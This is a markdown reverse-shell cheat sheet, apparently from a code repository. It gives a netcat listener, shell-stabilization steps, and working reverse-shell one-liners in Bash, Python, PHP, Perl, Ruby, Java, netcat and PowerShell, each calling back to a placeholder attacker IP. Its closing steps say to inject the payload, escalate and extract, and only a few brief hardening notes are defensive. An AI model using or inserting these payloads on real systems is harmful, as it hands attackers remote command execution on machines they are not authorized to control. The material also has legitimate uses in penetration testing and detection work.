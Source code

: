 # 🧰 Reverse Shell Cheat Sheet

## 📡 Listener Setup & Shell Stabilization

### Start Listener
```bash
ncat -lvnp <PORT>
```

### Bash Shell Stabilization (after connection)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then:
Ctrl-Z
stty raw -echo
fg
export TERM=xterm
stty rows $(tput lines) columns $(tput cols)
clear
```

---

## 🐚 Bash Reverse Shell
```bash
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

---

## 🐍 Python Reverse Shell
```bash
python -c 'import socket,os,subprocess;
s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"]);'
```

---

## 🐘 PHP Reverse Shell
```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);
exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🧪 Perl Reverse Shell
```perl
perl -e 'use Socket;
$i="<ATTACKER_IP>";$p=<PORT>;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
  exec("/bin/sh -i");
};'
```

---

## 🕸️ Ruby Reverse Shell
```ruby
ruby -rsocket -e 'exit if fork;
c=TCPSocket.new("<ATTACKER_IP>","<PORT>");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## ☕ Java Reverse Shell
```java
r = Runtime.getRuntime();
p = r.exec(new String[]{
  "/bin/bash","-c",
  "exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>;" +
  "cat <&5 | while read l; do $l 2>&5 >&5; done"
});
p.waitFor();
```

---

## 🔧 Netcat Reverse Shell
```bash
rm /tmp/f; mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <PORT> >/tmp/f
```

---

## 🪟 PowerShell Reverse Shell (Windows)
```powershell
$sm=(New-Object Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
  $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
  $sm.Write($st,0,$st.Length)
}
```

---

## 🔐 Hardening / Detection Notes
- Outbound firewall filtering helps prevent shell callbacks.
- Remove common interpreters (`bash`, `python`, `php`) when not needed.
- Use detection rules for outbound socket behavior and reverse shell signatures.
- Proper input sanitization and secure coding are the best defenses.

---

**Usage**:
1. Set up listener.
2. Inject the payload.
3. Stabilize shell (if Linux).
4. Escalate and extract.